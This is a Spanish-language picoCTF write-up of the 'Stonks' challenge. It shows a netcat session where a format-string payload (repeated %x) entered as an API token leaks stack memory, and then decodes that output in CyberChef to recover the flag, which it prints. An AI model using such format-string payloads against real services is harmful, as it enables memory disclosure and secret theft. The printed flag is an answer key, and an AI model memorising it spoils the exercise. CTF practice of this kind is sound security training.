 ## Objetivo
I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](https://mercury.picoctf.net/static/fdf270d959fa5231e180e2bd11421d0c/vuln.c) `nc mercury.picoctf.net 16439`
## Solución
```
┌──(kali㉿kali)-[~/picoCTF/BinExp/Stonks]
└─$ nc mercury.picoctf.net 16439
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%x
Buying stonks with token:
9f06410
Portfolio as of Wed Nov 13 05:59:23 UTC 2024


1 shares of BYLZ
1 shares of GH
16 shares of Z
24 shares of BHDS
12 shares of MO
104 shares of LBOW
1057 shares of DYNZ
780 shares of Z
23 shares of H
Goodbye!
                                                                                                                  
┌──(kali㉿kali)-[~/picoCTF/BinExp/Stonks]
└─$ nc mercury.picoctf.net 16439
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x 
Buying stonks with token:
977d390804b00080489c3f7ed0d80ffffffff1977b160f7ede110f7ed0dc70977c1803977d370977d3906f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e6263376365616336ffa4007df7f0baf8f7ede44077dabe0010f7d6dce9f7edf0c0f7ed05c0f7ed0000ffa406c8f7d5e68df7ed05c08048ecaffa406d40f7ef2f09804b000f7ed0000f7ed0e20ffa40708f7ef8d50f7ed189077dabe00f7ed0000
Portfolio as of Wed Nov 13 06:00:46 UTC 2024


3 shares of NPR
36 shares of GXK
4 shares of MN
184 shares of W
758 shares of PKE
Goodbye!
```

- ##### Al poner varios "x%", nos dan una cadena en formato hexadecimal, el cual desencriptaremos en CyberChef.
```
Token: 977d390804b00080489c3f7ed0d80ffffffff1977b160f7ede110f7ed0dc70977c1803977d370977d3906f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e6263376365616336ffa4007df7f0baf8f7ede44077dabe0010f7d6dce9f7edf0c0f7ed05c0f7ed0000ffa406c8f7d5e68df7ed05c08048ecaffa406d40f7ef2f09804b000f7ed0000f7ed0e20ffa40708f7ef8d50f7ed189077dabe00f7ed0000

Token Desencriptado: 9}
```

- ##### Al desencriptarlo y borrar algunos caracteres, obtenemos la bandera.
```
Flag: picoCTF{I_l05t_4ll_my_m0n3y_c7cb6cae}
```
## Notas Adicionales
## Referencias
- [PicoCTF](https://play.picoctf.org)
- [PicoCTF Writeups](https://www.youtube.com/playlist?list=PLDo9DMLZyP6kTZ8Td37-LdbAx4-yNfHBl&authuser=0)
- [CyberChef](https://gchq.github.io/CyberChef/)